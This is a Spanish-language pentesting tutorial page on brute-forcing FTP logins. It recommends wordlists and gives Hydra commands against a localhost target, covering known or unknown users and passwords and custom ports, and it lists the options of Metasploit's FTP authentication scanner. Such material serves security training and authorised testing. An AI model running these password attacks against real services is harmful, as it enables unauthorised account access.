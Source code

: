 ```yaml
---
description: En esta página aprenderás a enumerar y hacer fuerza bruta ante el servicio FTP
coverY: 0
---
```


# FTP

## Fuerza Bruta

{% hint style="success" %}
A la hora de emplear diccionarios se recomiendan los siguientes:

### Usuarios

```
/usr/share/wordlists/metasploit/unix_users.txt
```

### Contraseñas

```
/usr/share/wordlists/rockyou.txt
```
{% endhint %}

### Hydra

Para poder hacer fuerza bruta con hydra al servicio FTP, se pueden dar varios casos, en el caso de que tengas el usuario pero no la contraseña, deberás de usar un diccionario en este aspecto, por lo que el comando sería el siguiente

```
hydra -l user -P passwords.txt ftp://127.0.0.1 -t 15
```

En este caso con el parámetro `-l` le indicamos que sabemos el usuario y con el parámetro `-P` le indicamos la ruta donde esta el diccionario de contraseñas.

{% hint style="warning" %}
Puede que el servicio FTP no se encuentre en el puerto predefinido, en ese caso deberemos de especificar a hydra el puerto en el que está, esto se hace con el parámetro `-s`

```
hydra -l user -P passwords.txt ftp://127.0.0.1 -t 15 -s 2000
```
{% endhint %}

En el caso contrario de que no sepas el usuario pero si la contraseña, los parámetros querían así:

```
hydra -L users.txt -p Password123 ftp://127.0.0.1 -t 15
```

En este comando, le indicamos la ruta del diccionario de usuarios con el parámetro en mayúscula y una contraseña en concreto con el parámetro en minuscula. En el otro posible caso de que no tengamos ni la contraseña ni el usuario, pondremos los dos parámetros en mayúscula pasandole como valor la ruta del diccionario tanto de usuarios como de contraseñas.

```
hydra -L users.txt -P passwords.txt ftp://127.0.0.1 -t 15
```

{% hint style="info" %}
El con el parámetro`-t` le indicamos el número de hilos que queremos emplear
{% endhint %}

### Metasploit

Para esto, usaremos el modulo "FTP Authentication Scanner". Deberemos de configurar las siguientes opciones:

* USERNAME -> En el caso de que usemos un usuario concreto
* USER\_FILE -> En el caso de que usemos un diccionario de usuarios
* PASSWORD -> En el caso de que usemos una contraseña concreta
* PASS\_FILE -> En el caso de que usemos un diccionario de contraseñas
* RHOSTS -> IP de la máquina victima

